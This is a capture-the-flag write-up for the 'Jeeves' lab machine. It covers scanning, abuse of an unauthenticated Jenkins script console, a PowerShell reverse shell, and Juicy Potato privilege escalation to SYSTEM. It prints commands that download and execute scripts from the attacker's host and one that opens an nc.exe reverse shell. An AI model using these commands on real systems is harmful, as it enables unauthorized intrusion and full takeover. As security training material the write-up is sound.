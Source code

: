 # Jeeves

![](<../../../.gitbook/assets/image (9) (1).png>)

## Reconnaissance <a href="#491d" id="491d"></a>

First we want to run a initial nmap scan to see what ports are open and what services are on those ports.

```hcl
nmap -sC -sV -oA nmap/init 10.129.174.184
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-oA**: output all formats to _nmap/initial_

We get back the following information:

{% code title="init.nmap" %}
```hcl
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 20:19 EDT
Nmap scan report for 10.129.174.184
Host is up (0.034s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-03-24T05:19:57
|_  start_date: 2022-03-24T05:08:21
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 4h59m58s, deviation: 0s, median: 4h59m57s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.19 secondshcl
```
{% endcode %}

## Enumeration

### Passive Enumeration

#### IIS Directory Enumeration

```bash
gobuster dir -u http://10.129.174.184 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o iis.txt
```

#### Jetty Directory Enumeration

```
gobuster dir -u http://10.129.174.184:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o iis.txt
```

### Active Enumeration

#### Exploring IIS

Looking at the http site we are presented with a search bar

![](<../../../.gitbook/assets/image (15).png>)

Searching takes you to error.html which turns out to just be an image

![error.html](<../../../.gitbook/assets/image (17) (1).png>)

Source code for site, the action results in error.html

```html
<!DOCTYPE html>
<html>
<head>
<title>Ask Jeeves</title>
<link rel="stylesheet" type="text/css" href="style.css">
</head>

<body>
<form class="form-wrapper cf" action="error.html">
    <div class="byline"><p><a href="#">Web</a>, <a href="#">images</a>, <a href="#">news</a>, and <a href="#">lots of answers</a>.</p></div>
  	<input type="text" placeholder="Search here..." required>
	  <button type="submit">Search</button>
    <div class="byline-bot">Skins</div>
</form>
</body>

</html>
```

#### Exploring Jetty

Quickly checking gobuster for jetty shows that we have a directory to check out

![/askjeeves](<../../../.gitbook/assets/image (16).png>)

Going there we see Jenkins!

![Jenkins](<../../../.gitbook/assets/image (24) (1).png>)

Turns out we have command execution without needing to be logged in which works in our favor

![](<../../../.gitbook/assets/image (7).png>)

## Initial Access

Using Nishang Invoke-PowerShellTcp.ps1 script we can create a reverse shell and get access to the box

{% embed url="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1" %}

First we want to copy the example to the bottom of the script so that it is run when copied to the machine we are attacking

![](<../../../.gitbook/assets/image (10).png>)

![](<../../../.gitbook/assets/image (6).png>)

Next we want to get a web server running and a netcat listener to catch the reverse shell. In this se I am using [updog](https://github.com/sc0tfree/updog) for my simple web server.

![](<../../../.gitbook/assets/image (12) (1).png>)

Using the script console again I run this command to download and execute the invoke powershell tcp reverse shell script

![](<../../../.gitbook/assets/image (3).png>)

And we get a shell back!

![](<../../../.gitbook/assets/image (14).png>)

This allows us to get user.txt!

## Privilege Escalation

### Juicy Potato

Next we want to run PowerUp.ps1 however we want to use the dev branch as it has extra checks

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/dev" %}

![](<../../../.gitbook/assets/image (13).png>)

Then we want to run these commands in our reverse shell

```powershell
IEX(New-Object Net.WebCLient).downloadString('http://10.10.14.92/PowerUp.ps1')
Invoke-AllChecks # This runs the powershell function to check everything
```

![](<../../../.gitbook/assets/image (2).png>)

Right away we see SeImpersonatePrivilege which means this box is vulnerable to Juicy Potato!

{% embed url="https://github.com/ohpe/juicy-potato" %}

We first need to download JuicyPotato.exe to the box which I am hosting from my kali box

![](<../../../.gitbook/assets/image (22).png>)

We need to copy kali's nc.exe to the windows box

```powershell
# nc.exe is located /usr/share/windows-resources/binaries/nc.exe on kali
Invoke-WebRequest "http://10.10.14.92/nc.exe" -OutFile "nc.exe"
```

![](<../../../.gitbook/assets/image (8).png>)

Next we want to run JuicyPotato!

This is the input I used:

* **-t: \***
* **-p:** c:\windows\system32\cmd.exe
* **-a:** "/c c:\users\kohsuke\desktop\nc.exe -e cmd.exe 10.10.14.92 9001"
* **-l:** 9001

```powershell
cmd /c jp.exe -l 9001 -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\desktop\nc.exe -e cmd.exe 10.10.14.92 9001" -t *
```

![Got a shell](<../../../.gitbook/assets/image (23).png>)

We got nt authority\system!&#x20;

When we try and take a look at the administrators desktop we see hm.txt with an interesting message

![](<../../../.gitbook/assets/image (5).png>)

Then I tried this

![Alternate Data Streams](<../../../.gitbook/assets/image (9) (1) (1).png>)

Alternate Data Streams, find more about them here

{% embed url="https://owasp.org/www-community/attacks/Windows_alternate_data_stream" %}

<details>

<summary>We can direct this into more and get the flag</summary>

```
C:\Users\Administrator\Desktop>more < hm.txt:root.txt
more < hm.txt:root.txt
afbc5bd4b615a606 # Only first 16 bytes of hash shown
```

</details>

## Lessons Learned

* Restrict who can access the Jenkins management as this opens up unauthorized access
* In some instances a file using alternate data streams could be an indicator of compromise
* Be careful of which service users have SeImpersonatePrivilege as this could allow an attacker to easily escelate their privileges&#x20;
